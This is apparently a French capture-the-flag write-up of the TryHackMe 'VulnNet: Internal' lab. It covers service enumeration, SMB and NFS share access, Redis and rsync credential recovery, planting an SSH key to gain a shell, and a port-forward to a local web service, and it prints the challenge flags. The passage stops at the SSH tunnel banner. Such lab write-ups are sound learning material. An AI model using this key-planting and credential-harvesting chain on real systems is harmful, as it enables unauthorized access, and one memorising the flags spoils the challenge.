







# VulnNet: Internal #

## Task 1 VulnNet: Internal ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.81.126 vulnetinternal.thm' > /etc/hosts"
[sudo] Mot de passe de tim :

Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 15:47 CEST
Nmap scan report for vulnetinternal.thm (10.10.81.126)
Host is up (0.040s latency).
Not shown: 65523 closed ports
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp   open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33187/udp6  mountd
|   100005  1,2,3      35501/tcp   mountd
|   100005  1,2,3      41429/udp   mountd
|   100005  1,2,3      60565/tcp6  mountd
|   100021  1,3,4      37997/tcp   nlockmgr
|   100021  1,3,4      43879/tcp6  nlockmgr
|   100021  1,3,4      48718/udp   nlockmgr
|   100021  1,3,4      60359/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp   open     rsync       (protocol version 31)
2049/tcp  open     nfs_acl     3 (RPC #100227)
6379/tcp  open     redis       Redis key-value store
9090/tcp  filtered zeus-admin
35501/tcp open     mountd      1-3 (RPC #100005)
37997/tcp open     nlockmgr    1-4 (RPC #100021)
46021/tcp open     mountd      1-3 (RPC #100005)
51449/tcp open     mountd      1-3 (RPC #100005)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-08-12T15:54:23+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T13:54:23
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   33.27 ms 10.9.0.1
2   35.17 ms vulnetinternal.thm (10.10.81.126)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.98 seconds

```

D'arpès le scan on plusieurs services :
Le service SSH sur le port 22.  
Le service rpcbind sur le port 111.   
Le service Samba sur les ports 139,445.   
Le service rsync sur le port 873.  
Le service nfs sur le port 2049.   
Le service redis sur le port 6379.   
Le service zeus-admin sur le port 9090.  
Le service mountd sur les ports 35501,46021 et 51449.   
Le service nlockmgr.    

**What is the services flag? (services.txt)**


```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L //vulnetinternal.thm/ -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	shares          Disk      VulnNet Business Shares
	IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Comme les ports samba sont ouverts on regarde si des choses sont disponibles.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient //vulnetinternal.thm/shares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 10:20:09 2021
  ..                                  D        0  Tue Feb  2 10:28:11 2021
  temp                                D        0  Sat Feb  6 12:45:10 2021
  data                                D        0  Tue Feb  2 10:27:33 2021

		11309648 blocks of size 1024. 3276900 blocks available
smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 12:45:10 2021
  ..                                  D        0  Tue Feb  2 10:20:09 2021
  services.txt                        N       38  Sat Feb  6 12:45:09 2021

		11309648 blocks of size 1024. 3276900 blocks available

smb: \temp\> get services.txt
getting file \temp\services.txt of size 38 as services.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)
smb: \temp\> cd ..
smb: \> ls
  .                                   D        0  Tue Feb  2 10:20:09 2021
  ..                                  D        0  Tue Feb  2 10:28:11 2021
  temp                                D        0  Sat Feb  6 12:45:10 2021
  data                                D        0  Tue Feb  2 10:27:33 2021

		11309648 blocks of size 1024. 3276900 blocks available
smb: \> cd data
smb: \data\> ls
  .                                   D        0  Tue Feb  2 10:27:33 2021
  ..                                  D        0  Tue Feb  2 10:20:09 2021
  data.txt                            N       48  Tue Feb  2 10:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 10:27:33 2021

		11309648 blocks of size 1024. 3276900 blocks available
smb: \data\> get data.txt
getting file \data\data.txt of size 48 as data.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)
smb: \data\> get business-req.txt
getting file \data\business-req.txt of size 190 as business-req.txt (0,8 KiloBytes/sec) (average 0,5 KiloBytes/sec)
getting file \data\business-req.txt of size 190 as business-req.txt (0,8 KiloBytes/sec) (average 0,5 KiloBytes/sec)
smb: \data\> exit
tim@kali:~/Bureau/tryhackme/write-up$ cat services.txt 

THM{0a09d51e488f5fa105d8d866a497440a}

```

On se connect sur share dans le répertoire temp on trouve services.txt.  
On un autre répertoire on trouve aussi deux fichiers.  

On regarde service on trouve notre premier flag.   

La réponse est : THM{0a09d51e488f5fa105d8d866a497440a}     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat data.txt
Purge regularly data that is not needed anymore
tim@kali:~/Bureau/tryhackme/write-up$ cat business-req.txt 
We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
tim@kali:~/Bureau/tryhackme/write-up$ 
```

Dans les autres fichier il y un avertissement qui dit de bien faire le ménage.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ showmount -e vulnetinternal.thm
Export list for vulnetinternal.thm:
/opt/conf *
```

Sur le port 2049 on a un service de partage de fichier NFS.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mkdir mnt

tim@kali:~/Bureau/tryhackme/write-up$ sudo mount -t nfs vulnetinternal.thm:/opt/conf ./mnt

tim@kali:~/Bureau/tryhackme/write-up$ cd mnt/

tim@kali:~/Bureau/tryhackme/write-up/mnt$ l -al
total 36
drwxr-xr-x 9 root root 4096  2 févr.  2021 ./
drwxr-xr-x 5 tim  tim  4096 12 août  16:18 ../
drwxr-xr-x 2 root root 4096  2 févr.  2021 hp/
drwxr-xr-x 2 root root 4096  2 févr.  2021 init/
drwxr-xr-x 2 root root 4096  2 févr.  2021 opt/
drwxr-xr-x 2 root root 4096  2 févr.  2021 profile.d/
drwxr-xr-x 2 root root 4096  2 févr.  2021 redis/
drwxr-xr-x 2 root root 4096  2 févr.  2021 vim/
drwxr-xr-x 2 root root 4096  2 févr.  2021 wildmidi/
```

Nous avons monté le partage.  
Regardons si y a des idnetifiants.   

```bash
tim@kali:~/Bureau/tryhackme/write-up/mnt$ grep -r  "pass"
redis/redis.conf:# 2) No password is configured.
redis/redis.conf:# If the master is password protected (using the "requirepass" configuration
redis/redis.conf:# masterauth <master-password>
redis/redis.conf:requirepass "B65Hx562F@ggAZ@F"
redis/redis.conf:# resync is enough, just passing the portion of data the slave missed while
redis/redis.conf:# 150k passwords per second against a good box. This means that you should
redis/redis.conf:# use a very strong password otherwise it will be very easy to break.
redis/redis.conf:# requirepass foobared
```

Dans le fichier redis.conf on trouve un mot de passe.   
Le mot de passe est : B65Hx562F@ggAZ@F    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ redis-cli -h vulnetinternal.thm
vulnetinternal.thm:6379> AUTH B65Hx562F@ggAZ@F
OK
vulnetinternal.thm:6379> 
```

On se connect sur redis sur le port 6379 avec le bon mot de passe.   

```bash
vulnetinternal.thm:6379> info
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-135-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:7.4.0
process_id:541
run_id:ee6bb2bc34980a7e1534efeb66ce45b4189bf8f4
tcp_port:6379
uptime_in_seconds:2897
uptime_in_days:0
hz:10
lru_clock:1388815
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0

# Memory
used_memory:842512
used_memory_human:822.77K
used_memory_rss:2850816
used_memory_rss_human:2.72M
used_memory_peak:842512
used_memory_peak_human:822.77K
used_memory_peak_perc:100.12%
used_memory_overhead:832358
used_memory_startup:782432
used_memory_dataset:10154
used_memory_dataset_perc:16.90%
total_system_memory:2087923712
total_system_memory_human:1.94G
used_memory_lua:37888
used_memory_lua_human:37.00K
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
mem_fragmentation_ratio:3.38
mem_allocator:jemalloc-3.6.0
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1628775870
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:5
total_commands_processed:1
instantaneous_ops_per_sec:0
total_net_input_bytes:160
total_net_output_bytes:225
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:044955e95854decff3d0edb85059e9bb40fb32d5
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:1.88
used_cpu_user:0.96
used_cpu_sys_children:0.00
used_cpu_user_children:0.00

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

On a des informations sur les bases de données.   

```bash
vulnetinternal.thm:6379> keys *
1) "internal flag"
2) "int"
3) "marketlist"
4) "authlist"
5) "tmp"

vulnetinternal.thm:6379> get "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
```

Dans la base de données on récupère le flag.   

Réponse : THM{ff8e518addbbddb74531a724236a8221}   

```bash
vulnetinternal.thm:6379> type authlist
list
vulnetinternal.thm:6379> lrange authlist 1 100
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

tim@kali:~/Bureau/tryhackme/write-up$ echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

On regarde de quel type est la base de données authlist. 
On regarde l'intérieur on vois que c'est du base64.   
On décode la chaîne, on trouve un mote de passe dedans.   

Mot de passe : Hcg3HP67@TW@Bc72v

```bash
tim@kali:~/Bureau/tryhackme/write-up$ rsync --list-only rsync://rsync-connect@vulnetinternal.thm/
files          	Necessary home interaction

tim@kali:~/Bureau/tryhackme/write-up$ rsync  rsync://rsync-connect@vulnetinternal.thm/files/     
Password: 
drwxr-xr-x          4,096 2021/02/01 13:51:14 .
drwxr-xr-x          4,096 2021/02/06 13:49:29 sys-internal

tim@kali:~/Bureau/tryhackme/write-up$ rsync  rsync://rsync-connect@vulnetinternal.thm/files/sys-internal/     
Password: 
drwxr-xr-x          4,096 2021/02/06 13:49:29 .
-rw-------             61 2021/02/06 13:49:28 .Xauthority
lrwxrwxrwx              9 2021/02/01 14:33:19 .bash_history
-rw-r--r--            220 2021/02/01 13:51:14 .bash_logout
-rw-r--r--          3,771 2021/02/01 13:51:14 .bashrc
-rw-r--r--             26 2021/02/01 13:53:18 .dmrc
-rw-r--r--            807 2021/02/01 13:51:14 .profile
lrwxrwxrwx              9 2021/02/02 15:12:29 .rediscli_history
-rw-r--r--              0 2021/02/01 13:54:03 .sudo_as_admin_successful
-rw-r--r--             14 2018/02/12 20:09:01 .xscreensaver
-rw-------          2,546 2021/02/06 13:49:35 .xsession-errors
-rw-------          2,546 2021/02/06 12:40:13 .xsession-errors.old
-rw-------             38 2021/02/06 12:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 10:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 13:53:57 .config
drwx------          4,096 2021/02/01 13:53:19 .dbus
drwx------          4,096 2021/02/01 13:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 13:53:22 .local
drwx------          4,096 2021/02/01 14:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 12:43:14 .ssh
drwx------          4,096 2021/02/02 12:16:16 .thumbnails
drwx------          4,096 2021/02/01 13:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 13:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 14:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 13:53:22 Music
drwxr-xr-x          4,096 2021/02/01 13:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 13:53:22 Public
drwxr-xr-x          4,096 2021/02/01 13:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 13:53:22 Videos

```

On remarque qu'il un repertoire .ssh on peut mettre notre propre le clef pour se connecter.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/tim/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa
Your public key has been saved in ./id_rsa.pub
The key fingerprint is:
SHA256:KnaCp58qg8cPYoifRymCauB3Sd2dKQfrmP/lqou+8iE tim@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|                 |
|         .       |
|.    .. S + o    |
|* ..o. o + =     |
|O+oo*E+.+ o  .   |
|*=oB.O.oo.  o    |
|.+*== +=o++o..   |
+----[SHA256]-----+

tim@kali:~/Bureau/tryhackme/write-up$ cp id_rsa.pub authorized_keys
tim@kali:~/Bureau/tryhackme/write-up$ rsync -a ./authorized_keys rsync://rsync-connect@vulnetinternal.thm/files/sys-internal/.ssh/ 
Password: 

```

On fabrique une clef, puis on l'envoie sur le serveur comme une clef authorisée. 

**What is the user flag? (user.txt)**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i ./id_rsa sys-internal@vulnetinternal.thm
The authenticity of host 'vulnetinternal.thm (10.10.244.34)' can't be established.
ECDSA key fingerprint is SHA256:0ysriVjo72WRJI6UecJ9s8z6QHPNngSiMUKWFTO6Vr4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'vulnetinternal.thm,10.10.244.34' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by

sys-internal@vulnnet-internal:~$ cat user.txt
THM{da7c20696831f253e0afaca8b83c07ab}
```

On se connect sur le ssh et on lit le fichier user.txt.
On a notre flag.  

Réponse :THM{da7c20696831f253e0afaca8b83c07ab}   

**What is the root flag? (root.txt)**

```bash
sys-internal@vulnnet-internal:~$ ss -tno
State                      Recv-Q                  Send-Q                                         Local Address:Port                                          Peer Address:Port                                                               
ESTAB                      0                       0                                               10.10.244.34:22                                             10.9.228.66:41676                  timer:(keepalive,104min,0)                  
CLOSE-WAIT                 1                       0                                         [::ffff:127.0.0.1]:56947                                   [::ffff:127.0.0.1]:8111                                                               
ESTAB                      0                       0                                         [::ffff:127.0.0.1]:57691                                   [::ffff:127.0.0.1]:8111                                                               
FIN-WAIT-2                 0                       0                                         [::ffff:127.0.0.1]:8111                                    [::ffff:127.0.0.1]:56947                  timer:(timewait,5.636ms,0)                  
ESTAB                      0                       0                                         [::ffff:127.0.0.1]:8111                                    [::ffff:127.0.0.1]:57691                                    
```

Trouve plusieurs connexion en attente sur localhost.   

```bash
sys-internal@vulnnet-internal:~$ nc 127.0.0.1 8111
GET / HTTP/1.1
HTTP/1.1 400 
Content-Type: text/html;charset=utf-8
Content-Language: en
Content-Length: 435
Date: Thu, 12 Aug 2021 15:43:51 GMT
Connection: close

<!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 – Bad Request</h1></body></html>
```

Sur le port 8111 on est bien sur un serveur web.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo ssh sys-internal@vulnetinternal.thm -i ./id_rsa -L 8111:127.0.0.1:8111
The authenticity of host 'vulnetinternal.thm (10.10.244.34)' can't be established.
ECDSA key fingerprint is SHA256:0ysriVjo72WRJI6UecJ9s8z6QHPNngSiMUKWFTO6Vr4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'vulnetinternal.thm,10.10.244.34' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
